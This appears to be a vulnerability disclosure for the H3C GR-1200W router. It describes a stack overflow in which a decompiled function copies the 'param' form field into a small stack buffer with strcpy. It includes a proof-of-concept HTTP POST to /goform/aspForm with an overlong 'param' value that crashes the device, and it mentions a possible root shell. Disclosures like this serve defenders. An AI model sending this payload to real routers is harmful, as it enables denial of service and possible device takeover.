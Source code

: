 ### Affected product

```
H3C GR-1200W
```
In function sub_4ACC30,the content obtained by the program from the parameter "param" is passed to v2 .Then the v2 is directly copied into the v3 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4ACC30(int a1)
{
  const char *v2; // [sp+28h] [+28h]
  int v3[9]; // [sp+2Ch] [+2Ch] BYREF

  v3[0] = 0;
  v3[1] = 0;
  v3[2] = 0;
  v3[3] = 0;
  v3[4] = 0;
  v3[5] = 0;
  v3[6] = 0;
  v3[7] = 0;
  v2 = (const char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  strcpy((char *)v3, v2);
  CFG_Set(0, 505155584, v3);
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=version_set&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
